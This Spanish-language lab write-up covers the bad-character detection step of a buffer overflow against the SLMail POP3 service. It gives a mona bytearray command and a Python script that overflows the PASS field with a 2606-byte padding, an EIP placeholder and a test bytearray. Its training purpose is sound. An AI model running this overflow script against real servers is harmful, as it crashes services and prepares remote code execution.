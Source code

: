 ![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 5.png)

Como se puede ver, se identificaron dos badchars, el “00” y el “0a”, ahora lo que hay que hacer es generar otro bytearray excluyendo estos badchars.

```bash
!mona bytearray -cpb '\x00\x0a'
```

Y ahora en la máquina del atacante, se debe modificar el código para eliminar este badchar y volver a reiniciar el servicio SLMail para enviar el payload, este proceso se debe repetir hasta que no hayan badchars.

![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 6.png)

El script quedará de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```